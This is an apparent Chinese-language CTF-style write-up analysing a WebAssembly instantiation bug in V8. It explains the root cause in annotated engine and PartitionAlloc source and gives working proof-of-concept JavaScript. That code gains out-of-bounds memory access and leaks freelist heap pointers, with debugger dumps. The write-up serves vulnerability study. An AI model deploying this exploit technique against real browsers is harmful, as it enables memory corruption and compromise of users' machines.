


### wasm

wabt搭建：
```
git clone --recursive https://github.com/WebAssembly/wabt 
cd wabt
make
```

用 010 editer创建二进制文件test.wasm


```
# parse test.wasm and write test.wat
$ bin/wasm2wat test.wasm -o test.wat
```

详细内容可以看下这个文档：http://webassembly.org.cn/getting-started/js-api/

简单介绍一下这段代码：
- WebAssembly 模块可以通过 import 和 export 来导出和引入函数，在此处：(import "mod" "imp" (func (;0;) (type 0))) ，WebAssembly 引入了一个有两个层级的命名空间，同样的，我们必须提供一个两级的命名空间作为 import 对象传递给 instantiate。

```
  var ffi = {
    mod: {
      get imp() {
        console.log('getter');
        wasm2 = new WebAssembly.Instance(mod, {mod: {imp: function(){}}});
        spacer = new ArrayBuffer(0x10000);
        return function() {};
      }
    }
  };
```
- wasm当前有四个可用类型：
    - i32：32位整数
    - i64：64位整数
    - f32：32位浮点数
    - f64：64位浮点数

- 线性内存访问通过显式调用 load 和 store 运算符完成。i32.load: 加载4字节，转换为32位整数;i32.store: (不转换) 存储4字节。

- 总的来说就是导出了两个函数（一个读一个写），引入了一个函数，需要自己实现。

### Root Case

poc：
```
// raw_wasm = ...
var mod = WebAssembly.Module(raw_wasm);
var ffi = {
  mod: {
    get imp() {
      wasm2 = WebAssembly.Instance(mod, {mod: {imp: function(){}}});
      spacer = new ArrayBuffer(0x10000);
      return function() {};
    }
  }
};
wasm = WebAssembly.Instance(mod, ffi);
wasm2.exports.memory.grow(1);
// wasm.exports.XXX
```

##### 漏洞成因：

我们在为他实例化时，由于我们在ffi又放了一个实例化wasm2 = WebAssembly.Instance(mod, {mod: {imp: function(){}}});，所以会接着再触发一次实例化。

代码：
```
  int ProcessImports(Handle<FixedArray> code_table,
                     Handle<WasmInstanceObject> instance) {
        
    ......
    
      MaybeHandle<Object> result =
          LookupImport(index, module_name, import_name);
```

该函数的作用是按顺序处理imports，包括函数、表、全局变量和内存，从{ffi_}对象加载它们。返回导入函数的数目。

而我们在imports中放置了另一个实例化就会触发上面的回调，在进行一次实例化。

```
      Handle<WasmCompiledModule> original;
      {
        DisallowHeapAllocation no_gc;
        original = handle(module_object_->compiled_module());
        if (original->has_weak_owning_instance()) {
          owner = handle(WasmInstanceObject::cast(
              original->weak_owning_instance()->value()));
        }
      }
      DCHECK(!original.is_null());
      if (original->has_weak_owning_instance()) {
        // Clone, but don't insert yet the clone in the instances chain.
        // We do that last. Since we are holding on to the owner instance,
        // the owner + original state used for cloning and patching
        // won't be mutated by possible finalizer runs.
        DCHECK(!owner.is_null());
        TRACE("Cloning from %d\n", original->instance_id());
        old_code_table = original->code_table();
        compiled_module_ = WasmCompiledModule::Clone(isolate_, original);
        code_table = compiled_module_->code_table();
        // Avoid creating too many handles in the outer scope.
        HandleScope scope(isolate_);

        // Clone the code for WASM functions and exports.
        

        ........
        

      } else {
        // There was no owner, so we can reuse the original.
        compiled_module_ = original;
        old_code_table =
            factory->CopyFixedArray(compiled_module_->code_table());
        code_table = compiled_module_->code_table();
        TRACE("Reusing existing instance %d\n",
              compiled_module_->instance_id());
      }
      compiled_module_->set_native_context(isolate_->native_context());
    }
```

wasm在实例化的时候有个判断，他会根据你是否有owner来判断是否可以重用已有的compiled_module对象。如果有就克隆一个，如果没有就重用已有的compiled_module，这里我们在设置owner之前就出发了wasm2的实例化，所以就导致wasm和wasm2公用一个compiled_module对象。


之后我们在调用wasm2.exports.memory.grow(1);时就会调用update_wasm_memory_reference将两个wasm的wasm_memory_reference同时以旧换新。
```
void RelocInfo::update_wasm_memory_reference(
    Isolate* isolate, Address old_base, Address new_base,
    ICacheFlushMode icache_flush_mode) {
  DCHECK(IsWasmMemoryReference(rmode_));
  DCHECK_GE(wasm_memory_reference(), old_base);
  printf("new_base is :%p\n",new_base);
  printf("old_base is :%p\n",old_base);
  Address updated_reference = new_base + (wasm_memory_reference() - old_base);
  printf("updated_reference is:%p\n",updated_reference);
  // The reference is not checked here but at runtime. Validity of references
  // may change over time.
  unchecked_update_wasm_memory_reference(isolate, updated_reference,
                                         icache_flush_mode);
}
```

### 利用

#### 一、leak

代码如下：
```
  raw_wasm = parse_wasm_module();
  var mod = new WebAssembly.Module(raw_wasm);
  var ffi = {
    mod: {
      get imp() {
        console.log('getter');
        wasm2 = new WebAssembly.Instance(mod, {mod: {imp: function(){}}});
        spacer = new ArrayBuffer(0x10000);
        return function() {};
      }
    }
  };
  wasm = new WebAssembly.Instance(mod, ffi);
  wasm2.exports.memory.grow(1);
  console.log("memory is");
  junk = [];
  console.log("START");
  while (true) {
    junk.push(new ArrayBuffer(8));
    var p1 = read_oob(16).bswap();
    var p2 = read_oob(24).bswap();
    console.log(p1);
    console.log(p2);
    if (p2.sub(p1).val() == 8)
    {
      console.log("ok");
      console.log(p1.str());
      console.log(p2.str());
      break;
    }
  }
  
  var b8ptr = read_oob(8).bswap();
  scratch = b8ptr.sub_u32(0x20010);
```

先用人话说一遍：
- 漏洞成因就是上面的root case。
- oob是如何得到的：
    - 虽然wasm和wasm2共享一个compiled_module，但是它们的memory是拥有不同的arraybuffer的。
    - 我们在对wasm2进行grow的时候，由于arraybuffer并不具有扩张能力，所以就会舍弃旧的arraybuffer，再申请一个新的，此时由于wasm和wasm2共享一个compiled_module，此时就会导致compiled module被混淆，给wasm的memory分配到oob buffer。

    
    实际的内存情况：
    
```
wasm2:

array_buffer:0x3741d01db359 <ArrayBuffer map = 0x36b4222177b1>bk at : 0x283f3902c000
new_base is :0x283f3902c000
old_base is :0x283f3900c000
updated_reference is:0x283f3902c000
new_base is :0x283f3902c000
old_base is :0x283f3900c000
updated_reference is:0x283f3902c000

----------------------------------------------------------------------------------------
wasm:

array_buffer:0x3741d01db5c9 <ArrayBuffer map = 0x36b4222177b1>bk at : 0x283f3903c000
new_base is :0x283f3903c000
old_base is :0x283f3900c000
updated_reference is:0x283f3905c000
new_base is :0x283f3903c000
old_base is :0x283f3900c000
updated_reference is:0x283f3905c000

```
但此时的0x283f3905c000只是compiled module认为的wasm的memory的arraybuffer，并没有实际分配给他，所以我们之后的arraybuffer分配的空间就和wasm的memory重叠了。

junk.push(new ArrayBuffer(8));此时我们去分配一个8大小的arraybuffer他就会分配到这里。

- 这里有个要注意的点，为什么0x283f3905c000会是8大小的bucket，让我们去看下partitionalloc的源码：

```
    if (LIKELY(firstFreelistPointerExtent <= freelistLimit)) {
        // Only consider used space in the slot span. If we consider wasted
        // space, we may get an off-by-one when a freelist pointer fits in the
        // wasted space, but a slot does not.
        // We know we can fit at least one freelist pointer.
        numNewFreelistEntries = 1;
        // Any further entries require space for the whole slot span.
        numNewFreelistEntries += static_cast<uint16_t>((freelistLimit - firstFreelistPointerExtent) / size);
    }

    // We always return an object slot -- that's the +1 below.
    // We do not neccessarily create any new freelist entries, because we cross sub page boundaries frequently for large bucket sizes.
    ASSERT(numNewFreelistEntries + 1 <= numSlots);
    numSlots -= (numNewFreelistEntries + 1);
    page->numUnprovisionedSlots = numSlots;
    page->numAllocatedSlots++;

    if (LIKELY(numNewFreelistEntries)) {
        char* freelistPointer = firstFreelistPointer;
        PartitionFreelistEntry* entry = reinterpret_cast<PartitionFreelistEntry*>(freelistPointer);
        page->freelistHead = entry;
        while (--numNewFreelistEntries) {
            freelistPointer += size;
            PartitionFreelistEntry* nextEntry = reinterpret_cast<PartitionFreelistEntry*>(freelistPointer);
            entry->next = partitionFreelistMask(nextEntry);
            entry = nextEntry;
        }
        entry->next = partitionFreelistMask(0);
    } else {
        page->freelistHead = 0;
    }
    return returnObject;
}
```
在这里我们看到他会根据你是否超过了freelistLimit来决定是否为该partitionpage初始化freelisthead，由于我们这里的memory的arraybuffer大小都是0x1000正好大于了freelistLimit，所以就不会初始化，这样的话后面分配新的arraybuffer就会初始化为对应大小的bucket，这也就是为何junk.push(new ArrayBuffer(8));后0x283f3905c000会成为8大小的bucket：

```
pwndbg> x/20gx 0x283f3905c000
0x283f3905c000:	0x0000000000000000	0x10c005393f280000
0x283f3905c010:	0x18c005393f280000	0x20c005393f280000
0x283f3905c020:	0x28c005393f280000	0x30c005393f280000
0x283f3905c030:	0x38c005393f280000	0x40c005393f280000
```

这样的话调用wasm导出的read函数，就可以很轻易的得到freelist指针。如何用freelist指针计算出superpage等等的方法我们也已经在0ctf的fullchain题目中学习过了。